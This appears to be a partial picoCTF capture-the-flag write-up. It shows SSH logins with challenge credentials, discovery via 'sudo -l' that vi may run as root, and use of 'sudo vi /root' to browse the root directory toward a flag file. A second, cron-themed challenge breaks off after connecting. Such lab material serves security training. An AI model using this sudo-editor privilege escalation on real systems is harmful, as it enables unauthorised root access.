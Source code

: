 Can you read files in the root file?The system admin has provisioned an account for you on the main server:`ssh -p 50427 picoplayer@saturn.picoctf.net`Password: `UYiOazkqY2`Can you login and read the root file?
# solucion  

`ssh -p 53034 picoplayer@saturn.picoctf.net`
Password: `UYiOazkqY2`
```
picoplayer@challenge:~$ sudo -l
```
[sudo] password for picoplayer: 
Matching Defaults entries for picoplayer on challenge:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User picoplayer may run the following commands on challenge:
    (ALL) /usr/bin/vi
``````
sudo vi /root

" ============================================================================
" Netrw Directory Listing                                        (netrw v165)
"   /root
"   Sorted by      name
"   Sort sequence: [\/]$,\<core\%(\.\d\+\)\=\>,\.h$,\.c$,\.cpp$,\~\=\*$,*,\.o$,\.obj$,\.info$,\.swp$
"   Quick Help: <F1>:help  -:go up dir  D:delete  R:rename  s:sort-by  x:special
" ==============================================================================
../                                                                                                 
./
.vim/
.bashrc
.flag.txt
.profile
.viminfo
`````
``````
# 02 chrono

#### Description

How to automate tasks to run at intervals on linux servers?Use ssh to connect to this server:

```
Server: saturn.picoctf.net
Port: 56656
Username: picoplayer 
Password: bLgSMmbY6X
```

# solucion 
````` python
PerfectBlack-picoctf@webshell:~$ ssh picoplayer@saturn.picoctf.net -p 55500
ssh: connect to host saturn.picoctf.net port 55500: Connection refused
PerfectBlack-picoctf@webshell:~$ ssh picoplayer@saturn.picoctf.net -p 56656
The authenticity of host '[saturn.picoctf.net]:56656 ([13.59.203.175]:56656)' can't be established.
ED25519 key fingerprint is SHA256:dMTscRrUiURy7uMu5eGWwEKdd2FzqLzx6LfWhssWnNQ.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:13: [hashed name]
    ~/.ssh/known_hosts:15: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[saturn.picoctf.net]:56656' (ED25519) to the list of known hosts.
`````